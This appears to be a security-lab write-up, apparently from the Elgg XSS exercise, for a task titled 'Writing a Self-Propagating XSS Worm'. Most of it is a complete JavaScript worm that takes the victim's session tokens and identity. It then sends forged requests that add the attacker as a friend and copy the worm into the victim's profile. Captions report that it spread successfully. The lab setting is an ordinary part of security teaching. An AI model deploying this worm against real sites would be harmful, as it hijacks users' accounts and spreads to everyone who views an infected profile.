




## Task 6: Writing a Self-Propagating XSS Worm

**Objective:** Write an XSS worm to modify the visitor's profile when they view Samy's page.

**Steps:**
- Modify the code from Task 5 to include the worm code in the profile modification.
- Use the DOM approach to retrieve and propagate the worm code.
```HTML
<script id=worm>
        window.onload = function() {
            var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
            var jsCode = document.getElementById("worm").innerHTML;
            var tailTag = "</" + "script>";
        
            var descriptionContent = "Samy is my hero" + encodeURIComponent(headerTag + jsCode + tailTag);
        
            //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
            //and Security Token __elgg_token
            var userName = "&name=" + elgg.session.user.name;
            var guid = "&guid=" + elgg.session.user.guid;
            var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
            var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        
            //Construct the HTTP request to add Samy as a friend.
            var addFriendURL = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;
        
            var description = "&description=" + descriptionContent;
        
            var otherFields = "&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2"
        
            //Construct the content of your url.
            var content = token + ts + userName + description + otherFields + guid;
        
            var samyGuid = 47;
        
            var editProfileURL = "http://www.xsslabelgg.com/action/profile/edit";
        
            if (elgg.session.user.guid != samyGuid) {
                var Ajax = null;
        
                //Create and send Ajax request to add friend
                Ajax = new XMLHttpRequest();
                Ajax.open("GET", addFriendURL, true);
                Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
                Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                Ajax.send();
        
                //Create and send Ajax request to modify profile
                Ajax = new XMLHttpRequest();
                Ajax.open("POST", editProfileURL, true);
                Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
                Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                Ajax.send(content);
            }
        }
    </script>
```


*Script Injection*


*Initial About Me description of Alice*


*Visiting Samy's profile*


*About Me of Alice changed after visiting & Samy is a friend now*

**Observation:** When a user views an infected profile, their profile is modified, and the worm code is added, causing further worm propagation.